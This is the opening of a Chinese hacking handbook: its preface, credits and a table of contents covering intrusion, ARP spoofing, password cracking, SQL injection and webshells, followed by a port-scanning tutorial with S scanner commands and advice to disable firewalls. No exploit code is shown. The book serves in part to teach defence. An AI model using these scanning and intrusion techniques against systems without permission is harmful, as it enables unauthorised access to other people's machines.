# 黑客主流攻击大全

---

# 前言

在接触了基本的黑客知识以后，你是否想潜入技术的大海，接触更多的知识？知识就是力量，技术是所有计算机爱好者的图腾！如果你是 SCRIPT BOY，是否也会厌倦单纯的工具生活？此时，不如潜下心来，学习一些非 GUI 界面下的命令行，并且一探路由攻防中常见的命令。

如果你是一位网络管理员，你的 LAN 网络面临着一一次次黑客攻击的考验，断网、免费上网、种植木马……不胜其烦！那么，你该学习 LAN 中的网络嗅探和 ARP 欺骗了。

为了实现资源的独占性，现在很多东西都加密了，但是黑客精神就是要自由、平等和共享！那么如何突破这些密码和限制呢？反之，如何不让自己的密码被破解，资料被公开呢？对立统一，两个面的技术都有滋有味。

看过不少高手对系统进行溢出攻击，想了解他们是如何对程序进行篡改，然后达到执行自己的 SHELLCODE 的目的吗？相信本书会告诉你一切。

如果你是一位站长，网站经常遭遇黑客攻击，SQL INJ、UPLOAD、DDOS……无数的攻击消耗着你做站的热情，周而复始的挂马让你的访客骤减，你是否也应该提高自己的安全能力，一窥黑客攻击手法，做一次反击战呢？

Windows 虽然一家独大，但其它的“草根”系统依然保卫着自己的一块自留地。网络上采用 Linux 系统的服务器也不在少数，本书将让你了解 Linux 服务器的渗透，新东西，新动力！

随着互联网用户安全意识的提高，许多攻击已经不如从前一样容易了，但是形式多样的手法却层出不穷！本书将带给大家新的希望，让你做到攻防兼备。

我们不是为了攻击而去攻击，只是在互联网这样一个大环境下，被攻击是无法避免的。我们何不干脆一窥黑客攻击的内幕，认识黑客攻击的手法，用一种坦然的态度去面对这些技术呢？相信在这样的氛围中，我们能够让自己的电脑更加的安全，自己的网络更加的坚固！最后，相信中国的互联网也会逐步完善——百花齐放！

本书由张雷和张博合作完成，其中张雷负责了主体章节的编写，张博负责了全书的策划、统稿和修订，同时感谢肖文红提供了软件和漏洞测试平台。

读者朋友如果在阅读中有任何问题，可以到编者博客 hi.baidu.com/pespin 进行交流，或到“非安全”论坛 www.nohack.cn/bbs 进行提问，我们也会进行悉心的解答。

编者 张博

# 作者介绍



姓名：张博
网名：无敌小龙
籍贯：武汉
QQ：5450913
博客 BLOG：hi.baidu.com/pespin
某黑客杂志特约编辑，对计算机安全和系统编程有较为深入的研究，发表论文百余篇，出版图书多部，代表作品有网站猎手 3.0、DELPHI 反弹远控远航者 V1.0。


姓名：张雷 (Black Mask)
浙江温州乐清人，计算机专业科班出身，在嘉兴某安全公司做安全工作数载，对安全和网络编程有较深入的研究。
个人博客：hi.baidu.com/xtaflf

| 出品人： | 非安全 |
| 作者： | 张博 张雷 |
| 编审： | 眼镜猴 |
| 编辑： | Python LCX 空气 眼镜猴 冰的原点 浪迹天涯 10086 |
| 特约编辑： | 风飘雨 小迷 XApache 张宇 青蛙王子 小龙猪 |
| 终稿文字审校： | 百合 袁博 |
| 光盘编辑： | 眼镜猴 猪哥靓 |
| 平面规划： | 黑裤子 |
| 网站： | www.nohack.cn |
| 网站编辑/管理： | 空气 Cass |
| 发行： | 段东霞 |
| 电话/传真： | 010-68867436 010-86921991 |
| 邮购： | 速递小子 924073360 (QQ) |
| 版权申明： | 图文版权所有，未经同意，不得转载。作者投稿文章，文责自负。 |
| 投稿信箱： | nohack@21cn.com |
| 邮购查询： | hope_wym@sina.com |
| 光盘投稿/交流信箱： | CD@nohack.cn |
| 在线商城： | book.nohack.cn |
| 淘宝专卖店： | taobao.nohack.cn |
| 拍拍网： | paipai.nohack.cn |
| 百度有啊： | youa.nohack.cn |

## 第一章 黑客踩点和主动攻击

### 1.1 网络黑客速成班……………………………………………………2
- 1.1.1 端口的定义和分类………………………………………………2
- 1.1.2 扫描原理和类别初探……………………………………………3
- 1.1.3 端口扫描之“黑手”党…………………………………………4
- 1、宝刀不老的S快速端口扫描…………………………………………4
- 2、扫描器中的百科全书之X-scan……………………………………6
- 3、舶来金品之SuperScan………………………………………………8

### 1.2 CMD管道中的不平夜………………………………………………10
- 1.2.1 IPC$漏洞入侵初探………………………………………………10
- 1.2.2 空连接后时代之共享上传………………………………………11
- 1.2.3 从NET到AT攻下计算机防线……………………………………12
- 1.2.4 IPC$漏洞和AT命令防御…………………………………………12
- 1、IPC$和默认共享关闭………………………………………………12
- 2、AT命令计划任务关闭………………………………………………13

### 1.3 利用计算机管理进行的渗透前夜…………………………………13
- 1.3.1 计算机管理定义…………………………………………………14
- 1.3.2 远程连接对方主机………………………………………………14

### 1.4 非GUI界面下的终端入侵…………………………………………16
- 1.4.1 Telnet服务及其启动方法一窥…………………………………16
- 1.4.2 如何使用Telnet命令钻进电脑…………………………………17
- 1.4.3 CMD下面的TFTP上传……………………………………………17
- 1.4.4 Telnet防御之终极红客…………………………………………18

### 1.5 FTP入侵也精彩……………………………………………………18
- 1.5.1 FTP弱口令光速入侵……………………………………………18
- 1.5.2 小议FTP提权……………………………………………………19

### 1.6 小结…………………………………………………………………20

## 第二章 网络嗅探与ARP欺骗

### 2.1 嗅探原理与应用详解………………………………………………22
- 2.1.1 嗅探工具及其原理剖析………………………………………22
- 2.1.2 Sniffer嗅探器实战攻击真把式………………………………22

### 2.2 ARP欺骗技术一日游………………………………………………26
- 2.2.1 ARP和ARP欺骗原理……………………………………………26
- 2.2.2 ARP欺骗种类……………………………………………………27

### 2.3 ARP嗅探欺骗工具触类旁通………………………………………27
- 2.3.1 LAN嗅探欺骗之神——Cain……………………………………27
- 2.3.1.1 利用Cain进行ARP欺骗与嗅探………………………………27
- 2.3.1.2 利用Cain欺骗嗅探远程3389登录密码……………………34
- 2.3.1.3 利用 cain 进行局域网 DNS 欺骗挂马（即域名欺骗）...35
- 2.3.2 CMD 下的交换/路由欺骗王——Zxarps...37
- 2.3.2.1 HTTP 和 FTP 协议嗅探...37
- 2.3.2.2 超级自定义挂马...40
- 2.3.2.3 欺骗主机实现替换下载...42

### 2.4 无 ARP 欺骗嗅探技术...43
- 2.4.1 Switch Session Clone——利用 mac+port 欺骗方式实现 sniffer...43
- 2.4.2 httphijack No Arp 欺骗的会话劫持工具...49

### 2.5 修炼内功防范 ARP 欺骗...51
- 2.5.1 你攻我防之 ARP 防火墙...52
- 1、彩影 ARP 防火墙...52
- 2、360ARP 防火墙...53
- 3、金山 ARP 防火墙...53
- 2.5.2 IP 和 MAC 地址双向绑定...54

### 2.6 小结...55

## 第三章 密码和文件加密破解

### 3.1 巧破本地 Windows 密码...57
- 3.1.1 Ntpass 本地破解 XP 密码...57
- 3.1.2 替换屏保程序破解 XP 密码...59
- 3.1.3 替换 SAM 文件破解 XP 密码...61
- 3.1.4 巧用 Ophcrack 破解 XP 密码...61

### 3.2 破解路由器之一马平川...64
- 3.2.1 WebCrack 破解路由器密码...65
- 3.2.2 东凌 ADSL 密码终结者破解路由器密码...66
- 3.2.3 Linksys Brute force 破解路由器密码...67
- 3.2.4 防御路由器破解...70

### 3.3 CMOS 密码破解攻坚战...71
- 3.3.1 软件清除 CMOS 密码...71
- 3.3.2 DEBUG 破解 CMOS 密码...71
- 3.3.3 手工放电破解 CMOS 密码...72

### 3.4 E-mail 破解密码一往无前...72
- 3.4.1 hscanGUI 破解 E-mail 密码...73
- 3.4.2 hscanCMD 破解 E-mail 密码...74

### 3.5 破解其他程序的访问密码...75
- 3.5.1 破解加密的 PDF 文件...75
- 3.5.2 破解 RAR 压缩包密码...76
- 3.5.3 EXE 文件加密破解...78
- 3.5.4 U 盘文件加密和解密...80
- 1、U 盘加密和拷贝法破解...80
- 2、U 盘加密和覆盖法破解...82
- 3.5.5 文件夹加密隐藏王的破解之路...83
- 1、使用方法...83
- 2、手工破解...84

### 3.6 小结...85

# 第四章 缓冲区溢出和代码安全

### 4.1 缓冲区溢出概述...87
- 4.1.1 什么是缓冲区溢出...87
- 4.1.2 缓冲区溢出攻击方式...87
- 4.1.3 缓冲溢出的根源...88

### 4.2 缓冲区溢出与代码...89
- 4.2.1 从代码入手...89
- 4.2.2 Shellcode 与机器码...90

### 4.3 利用缓冲区溢出攻击...91
- 4.3.1 缓冲区溢出漏洞...91
- 4.3.2 利用 MS05-039 溢出漏洞进行攻击...92
- 4.3.3 最新 IPC$ 0day 初体验...93
- 1、MS08067 漏洞介绍...93
- 2、免口令 IPC$ 溢出 0day...93
- 3、直接溢出获取 system 权限的 CMDSHELL...94
- 4.3.4 集群式漏洞攻击...94

### 4.4 应对缓冲区溢出...98
- 4.4.1 使用更安全的函数...98
- 4.4.2 判断边界...98
- 4.4.3 安全的字符串操作...99
- 4.4.4 检查指针...100
- 4.4.5 系统溢出漏洞的防御...101
- 4.4.6 神奇的 MCAFFEE 缓冲区保护...101

### 4.5 小结...102

## CONTENTS · 目录

## 第五章 黑客入侵和网络渗透

### 5.1 ASP 网站 SQL 注入攻击...104
- 5.1.1 ACCESS 数据库网站入侵...104
- 1、手动检测网站是否存在注入漏洞...104
- 2、用工具检测用户表及后台地址...105
- 3、ewebeditor 上传拿 webshell...107
- 5.1.2 mssql2005 数据库网站入侵...109
- 1、检测注入点数据库类型...110
- 2、union select 字段查询...110
- 3、sql_2005_inj 工具注入...111
- 4、上传一句话木马拿 WEBSHELL……………………………………113
- 5、艰难的提权…………………………………………………………114
- 6、超级 webshell 跳板——reDuh……………………………………117

### 5.2 PHP 网站注入之 Linux 系统………………………………………119
- 1、HYSI 工具注入……………………………………………………119
- 2、查找 mysql 用户名和密码………………………………………120
- 3、社工学获得 cmdshell 和远程桌面……………………………120

### 5.3 cookie 注入突破防注入代码拿站………………………………121
- 1、cookie 注入代码实现手动注入…………………………………121
- 2、cookie 注入中转站实现手动注入………………………………125
- 3、后台数据库备份拿 webshell……………………………………126

### 5.4 简简单单旁注来拿站……………………………………………128
- 1、从旁注入…………………………………………………………128
- 2、注入猜表找后台…………………………………………………129
- 3、上传 ASP 木马……………………………………………………130
- 4、超级简单的提权…………………………………………………131
- ①利用 reDuh 转发 3389……………………………………………132
- ②Lcx 转发 3389……………………………………………………132

### 5.5 站长的围炉夜话之安全漫谈……………………………………134
- 5.5.1 巧用代码让注入攻击变成无用功……………………………134
- 5.5.2 数据库安全之 6 种武器………………………………………136

### 5.6 小结………………………………………………………………137

## CONTENTS · 目录

## 第六章 网站入侵之 Linux 服务器

### 6.1 C 段嗅探入侵 Linux 网站…………………………………………139
- 6.1.1 从 Windows 服务器网站入侵到 Linux 服务器网站…………139
- 6.1.2 union select 手工注入………………………………………140
- 6.1.3 Mysql 管理工具备份拿 SHELL………………………………142
- 6.1.4 mysql 简单提权………………………………………………142
- 6.1.5 社会工程学提权………………………………………………144

### 6.2 内网网站入侵……………………………………………………145
- 6.2.1 MySQLi_Dumper 工具注入……………………………………145
- 6.2.2 Ecshop 后台上传漏洞分析……………………………………149
- 6.2.3 PHP 版一句话图片木马拿 WebShell…………………………150
- 6.2.4 udev 本地提权…………………………………………………151

### 6.3 网站跨库入侵……………………………………………………154
- 6.3.1 UBB.threads 论坛后台拿 SHELL……………………………157
- 6.3.2 反弹 CMDSHELL 利用 sock_sendpage()漏洞提权…………157

### 6.4 小结………………………………………………………………158

## 第七章 Google 黑客基本功

### 7.1 Google 黑客之围炉夜话 …………………… 161
### 7.2 源自 Google 的虚假钓鱼信息 …………………… 162
### 7.3 利用 Google 工具超酷获取代理地址 …………………… 164
### 7.4 获取肉鸡，看我用 Google 黑客 …………………… 165
### 7.5 利用 Google 跳转生成器进行钓鱼挂马 …………………… 166
- 7.5.1 让 Google 来伪装你的跳转页 …………………… 166
- 1、指定跳转页面 …………………… 166
- 2、指定跳转到主页 …………………… 166
- 7.5.2 工具组合让欺骗包裹糖衣 …………………… 166
- 7.5.3 社工种木马——快捷方式 …………………… 167
### 7.6 小结 …………………… 168

## 第八章 红客路线和狙击入侵

### 8.1 我的隐私我做主 …………………… 170
- 8.1.1 虚拟网让你的隐私遁形 …………………… 170
### 8.2 男人的战争——捂死下载者 …………………… 171
- 1、给下载者安装一个摄像头 …………………… 171
- 2、后下载者时代——捂死下载的发信木马 …………………… 172
### 8.3 扼杀网马看我锦囊妙计 …………………… 172
### 8.4 病毒攻防 365 天 …………………… 173
- 8.4.1 打造自己的病毒入侵防御工事 …………………… 173
- 1、锻造你的万能启动盘 …………………… 173
- 2、在 WINXP 下制作启动盘 …………………… 174
- 3、通过 USB 启动 WINPE …………………… 175
- 4、换个系统查杀 WINDOWS 病毒 …………………… 176
- 8.4.2 安全搭配提升系统防病能力 …………………… 177
- 1、绝妙设置让我狙击所有计算机病毒 …………………… 177
- 8.4.3 卷起袖子看我杀马实战 …………………… 178
- 1、惊现世界第一杀毒软件 …………………… 178
- 2、杀毒之追捕“逃脱”还原卡的猫癣下载者 …………………… 179
- ①中毒分析 …………………… 179
- ②手工杀毒 …………………… 181
- ③工具杀毒 …………………… 181
- 3、利用内核工具深度查杀新时代木马 …………………… 182
### 8.5 小结 …………………… 184

# 光盘目录

## 常用软件
- VMWare 虚拟机 7.0
- WinRAR 压缩解压软件

## 第一章 黑客踩点和主动攻击
- SuperScanV4.0 扫描工具
- tftp 文件传输
- X-Scan-v3.3 扫描工具

## 第二章 网络嗅探与 ARP 欺骗
- 360AntiArp 防火墙
- Ace Password Sniffer 密码嗅探
- cain 主流嗅探工具
- httphijack No Arp 无 arp 欺骗的 sniff
- Switch Session Clone 网关 session 克隆
- zxarps, APR 攻击经典工具
- 彩影 ARP 防火墙
- 金山 ARP 防火墙

## 第三章 密码和文件加密破解
- AP PDF Password Recovery 解除 PDF 密码保护
- EXE 加口令
- hscanCMD, HSCAN 的 CMD 版
- hscanGUI, HSCAN 的 GUI 版
- NTPass 管理员口令记录
- ophcrack-win32-installer-3.3.0 密码破解
- rar password recovery, RAR 口令恢复
- WebCrack4 最新 V4.0 字典
- 东凌 ADSL 密码终结者
- 侠客密码查看器
- 文件夹加密隐藏王
- 移动加密大师ulock

### 第四章 缓冲溢出和代码侵入
- MS08067 漏洞利用工具

## 第五章 黑客入侵和网络渗透
- Casiv4 入侵攻击
- cookie-browse, COOKIE 浏览
- Domain3 旁注
- HDSICmdshell, HDSI 的 CMDSHELL 版
- HYSI, PHP 注射辅助工具
- JSP-ORACLE 注入方法整理
- NBSINBSI 网站漏洞检测工具
- SiOracle, Oracle 专用注射器
- WebHunter 网站猎手
- WIS AND WED, 小榕 ASP 网站注入工具
- ZBSI, PHP 注入工具

### 第六章 网站入侵之 linux 服务器
- MySQLi_Dumper 一款不错的 MYSQL 注入工具

### 第七章 GOOGLE 黑客基本功
- Google RegEx Parser 搜索代理小工具
- googlewt, google 跳转生成器

## 第八章 红客路线和狙击入侵
- bitdefender2009 病毒查杀
- SecPlugin 畅游巡警
- 下载者监视器 1.0


## 第一章 黑客踩点和主动攻击

随着网络的发展，黑客技术越来越普遍，不再像以前那样的神秘了。就算是一个完全不懂黑客技术的人，也可以从网上下载到一个黑客工具，简单地做到入侵他人电脑的目的。但是一遇到问题，可能就会束手无策，因为他们毕竟没有扎实的基础。

无论学什么东西，基础是最重要的，我会尽量减少理论的东西，多一些实际的操作，希望本章的内容可以让你更深入地了解黑客技术。

## 1.1 网络黑客速成班

网络中的每一台计算机如同一座房子，在这房子中，有的窗户对外完全开放，有的却是关闭。入侵者们是如何找到，并打开这些窗户的呢？并且这些窗户究竟通向房间的哪里呢？

在网络技术中，我们可以抽象地把这些房子的“窗户”称之为计算机的“端口”。这里所说的端口，不是计算机硬件的I/O端口，而是软件形式上的概念。

服务器可以向外提供多种服务，比如既可以是WEB服务器，也可以是FTP服务器，同时，它也可以是邮件服务器。

为什么一台服务器可以同时提供那么多的服务呢？其中一个很主要的方面，就是各种服务采用不同的端口分别提供不同的服务。比如：WEB采用80端口，FTP采用21端口等。这样，通过不同的端口，计算机就可以与外界进行互不干扰的通信。

> 计算机之间相互通信的时候，分为两种方式：一种是发送信息以后，可以确认信息是否到达，也就是有应答的方式，这种方式大多采用TCP协议；一种是发送以后就不管了，不去确认信息是否到达，这种方式大多采用UDP协议。对应这两种协议的服务所提供的端口，也就分为了TCP端口和UDP端口。

当计算机开放了端口之后，黑客就会进行端口扫描。端口扫描是入侵者搜集信息的几种常用手法之一，也正是这一过程最容易使入侵者暴露自己的身份和意图。

一般来说，扫描端口有如下目的：判断目标主机上开放了哪些服务；判断目标主机的操作系统。

如果入侵者掌握了目标主机开放了哪些服务，运行何种操作系统，他们就能够使用相应的手段实现入侵。

### 1.1.1 端口的定义和分类

> 计算机“端口”是英文“port”的译义，可以认为是计算机与外界通讯交流的出口。其中硬件领域的端口又称接口，如：USB端口、串行端口等。软件领域的端口一般指网络中面向连接服务和无连接服务的通信协议端口，是一种抽象的软件结构，包括一些数据结构和I/O（基本输入输出）缓冲区。

在网络技术中，端口有好几种意思。集线器、交换机、路由器的端口，指的是连接其他网络设备的接口，如RJ-45端口、Serial端口等。我们这里所指的端口不是指物理意义上的端口，而是特指TCP/IP协议中的端口，是逻辑意义上的端口。

那么TCP/IP协议中的端口指的是什么呢？如果把IP地址比作一间房子，端口就是出入这间房子的门。真正的房子只有几个门，但是一个IP地址的端口可以有65536（即：256×256）个之多！端口是通过端口号来标记的，端口号只有整数，范围从0到65535。

在Internet上，各主机间通过TCP/IP协议发送和接收数据包，各个数据包根据其目的主机的IP地址来进行互联网络中的路由选择。可见，把数据包顺利的传送到目的主机是没有问题的。问题出在哪里呢？我们知道，大多数操作系统都支持多程序（进程）同时运行，那么目的主机应该把接收到的数据包传送给众多同时运行的进程中的哪一个呢？显然这个问题有待解决，端口机制便由此被引入进来。

本地操作系统会给那些有需求的进程分配协议端口（protocol port，即我们常说的端口），每个协议端口由一个正整数标识，如：80、139、445等等。当目的主机接收到数据包后，将根据报文首部的目的端口号，把数据发送到相应端口，而与此端口相对应的那个进程将会领取数据并等待下一组数据的到来。

说到这里，端口的概念似乎仍然抽象，那么继续跟我来，别走开。

端口其实就是队列，操作系统为各个进程分配了不同的队列，数据包按照目的端口被推入相应的队列中，等待被进程取用。在极特殊的情况下，这个队列也是有可能溢出的，不过操作系统允许各进程指定和调整自己队列的大小。

不光接受数据包的进程需要开启它自己的端口，发送数据包的进程也需要开启端口。这样，数据包中将会标识有源端口，以便接受方能顺利的回传数据包到这个端口。

一台计算机一共有65535个端口，但是常用的端口是从0-1023，不常用的端口是从1024-65535，下面我们来看看常用的一些TCP和UDP端口分类：

TCP端口如下：

| 服务名称 | 端口号 | 协议说明 |
| --- | --- | --- |
| HTTP | 80 | 网页浏览服务协议 |
| FTP | 21 | 有连接文件传输服务协议 |
| Telnet | 23 | 终端仿真协议 |
| SSH | 22 | SSH远程登录协议 |
| POP3 | 110 | 发邮件协议 |
| SMTP | 25 | 收邮件协议 |

UDP端口如下：

| 服务名称 | 端口号 | 协议说明 |
| --- | --- | --- |
| TFTP | 69 | 无连接文件传输服务协议 |
| DNS | 53 | 域名解析协议 |
| SNMP | 161 | 简单网络管理协议 |

### 1.1.2 扫描原理和类别初探

入侵者如果想要探测目标计算机开放了哪些端口、提供了哪些服务，就需要先与目标端口建立TCP连接，这也是“扫描”的出发点。

> 端口扫描原理：尝试与目标主机某些端口建立连接，如果目标主机该端口有回复，则说明该端口开放，即为“活动端口”。

扫描原理分类：

- 1、全TCP连接：采用三次握手，与目标计算机建立标准TCP连接，但很容易被目标主机记录。
- 2、半打开式扫描（SYN扫描）：
  - a、如果目标计算机回应的TCP报文中SYN=1,ACK=1，说明该端口是活动的，接着扫描主机传送一个RST给目标主机拒绝建立TCP连接，从而导致三次握手过程失败。
  - b、如果目标计算机回应RST，则表示该端口是“死端口”，此时扫描主机不做任何回应。由于扫描过程中三次握手并未成功，大大降低了被目标计算机记录的可能，也加快了扫描的速度。
- 3、FIN 扫描：依靠发送 FIN 来判断目标计算机的指定端口是否活动。发送一个 FIN=1 的 TCP 报文到一个关闭的端口时，该报文会被丢掉，并返回一个 RST 报文。但如果当 FIN 报文到达一个活动端口时，该报文只是简单的丢掉，不会返回任何回应。可以看出，FIN 扫描没有涉及任何 TCP 连接部分，因此比前两种都安全，称之为秘密扫描。
- 4、第三方扫描（代理扫描）：利用第三方主机来代替入侵者进行扫描，这个第三方主机一般是入侵者通过入侵其他计算机得到的，常被称之为“肉鸡”。

### 1.1.3 端口扫描之“黑手”党

在入侵的过程中，能不能成功入侵主机，扫描端口是非常重要的，所以在选择扫描软件时也至关重要。下面我介绍几款比较好用的扫描软件，至于具体的操作方法，会在以后的章节中进行。

- 1、宝刀不老的 S 快速端口扫描

最初，黑客是在 DOS 系统中进行端口扫描的，因为那时的工具都是 16 位的 DOS 工具。如今系统的发展日新月异，DOS 下面的扫描工具逐渐远离了人们的视线。但是，我们还是有必要了解一些 DOS 下面的扫描工具，因为很多 DOS 下面的扫描工具有很多非常便捷的功能和更快的速度。其中，S 扫描器就是一款不得不说的 DOS 下面的扫描器。

S 扫描器是一个简单的使用两种常用扫描方式进行端口扫描的端口扫描器程序，它运行在 CMD 下，是通过命令来实现扫描的，它的主要功能如下：

- 拥有两种不同的扫描方式：SYN 扫描和一般的 connect 扫描。
- 可以扫描单个 IP 或 IP 段所有端口。
- 可以扫描单个 IP 或 IP 段单个端口。
- 可以扫描单个 IP 或 IP 段用户定义的端口。
- 可以显示打开端口的 banner。
- 可将结果写入文件。
- TCP 扫描可自定义线程数。

```
E:\黑客技术文章\黑客技术攻防大全稿件\工具\1>s
TCP Port Scanner V1.1 By WinEggDrop
Usage: s TCP/SYN StartIP [EndIP] Ports [Threads] [/Banner] [/Save]
Example: s TCP 12.12.12.12 12.12.12.254 80 512
Example: s TCP 12.12.12.12 1-65535 512
Example: s TCP 12.12.12.12 12.12.12.254 21,3389,5631 512
Example: s TCP 12.12.12.12 21,3389,5631 512
Example: s SYN 12.12.12.12 12.12.12.254 80
Example: s SYN 12.12.12.12 1-65535
Example: s SYN 12.12.12.12 12.12.12.254 21,80,3389
Example: s SYN 12.12.12.12 21,80,3389
```

图 1

知道了这些之后，现在我们就可以打开 CMD 来到 S 扫描器的目录，然后输入 S 后回车，调出 S 扫描器，显示信息如图 1。其中可以看到，S 扫描器的用法为：

```
S TCP/SYN StartIP [EndIP] Ports [Threads] [/Banner] [/Save]
```

这里来说一下他的各项参数：

- TCP/SYN -> TCP 方式扫描或 SYN 方式扫描 (SYN 扫描需要在 win2k 或以上系统才行)，SYN 扫描对本机无效；
- StartIP -> 起始扫描的 IP；
- EndIP -> 结束扫描的 IP，可选项，如果这一项没有，就只是对单个 IP 扫描；
- Ports -> 可以是单个端口，连续的一段端口或非连续的端口；
- Threads -> 使用最大线程数去扫描 (SYN 扫描不需要加这一项)，不能超过 1024 线程；
- /Banner -> 扫描端口时一并将 Banner 显示出来，这一选项只对 TCP 扫描有效；
- /Save -> 将结果写入当前目录的 Result.txt 文件中。

谈了如此多的理论，下面来进行实战演练。首先在 CMD 中输入命令：S TCP 192.168.1.1 192.168.1.17 80 512，意思是以 TCP 方式扫描 192.168.1.1 到 192.168.1.17 这个 IP 段中的80端口,最大并发线程是512,执行后的返回信息如图2。

输入命令:S TCP 192.168.1.1 192.168.1.17 135 512 /Banner,意思是以TCP方式扫描192.168.1.1到192.168.1.17这个IP段中的135端口,最大并发线程是512,并显示Banner,执行后返回信息如图3。

输入命令:S TCP 192.168.1.1 192.168.1.17 1-135 512,意思是以TCP方式扫描192.168.1.1到192.168.1.17这个IP段中的1到135端口,最大并发线程是512,执行后返回信息如图4。

输入命令:S SYN 192.168.1.17 1-135 /Save,意思是以SYN方式扫描192.168.1.17这个IP中的1到135端口,将结果写入Result.txt文件,扫描结束后该文件就存放在你的S扫描器所在目录。执行后的返回信息如图5,什么东西也没扫描出来。

难道命令输错了吗?再到S扫描器所在目录打开Result.txt文本看看,也是什么都没扫描到!如图6。这是因为,WinXP SP2不支持S扫描器的SYN模式扫描。

难道WinXP SP2就不能用SYN扫描模式?答案是可以用的。这是因为系统限制了并发连接数,所以只要我们先打好KB893066补丁,再运行下TCP/IP连接数破解补丁,关一下系统自带的防火墙,就能使用SYN扫描了。

打开“TCP/IP连接数破解补丁”,输入一个大点的数,比如:10240,最后“应用”一下,如图7。

这时重启一下电脑,进入系统后,关闭服务里的防火墙服务 Windows Firewall /Internet Connection Sharing (ICS),


图2


图3


图4


图5


图6


图7

如图 8。

在做完以上两步后，我们就可以使用 SYN 方式扫描了。再次来到 CMD 中，切换到 S 扫描器所在目录，输入命令：

```
S SYN 192.168.1.1 192.168.1.17 21,80,135,139,3389。
```

这命令是什么意思？这就是留给你的作业了，自己解释！来看看扫描结果如何，如图 9，可以使用 SYN 扫描方式了。

在使用 S 扫描器时，大家要注意以下几点：

- a、SYN扫描是很依赖于扫描者和被扫描者的网速的，如果你的配置较低的话，我也不推荐使用。
- b、SYN扫描是比TCP扫描的速度快很多，但在稳定性方面却不是太好，所以自己决定使用哪种模式吧。
- c、SYN扫描不需要线程那个参数。
- d、TCP扫描的最大并发线程不能超过1024。
- e、使用SYN模式扫描，务必要关闭系统防火墙和第三方防火墙（比如：NOD32）。

相信通过对上面这款扫描工具的讲述，你现在一定对扫描软件也有所了解吧？下面我们来结合实际入侵，看看扫描工具所发挥的作用吧。



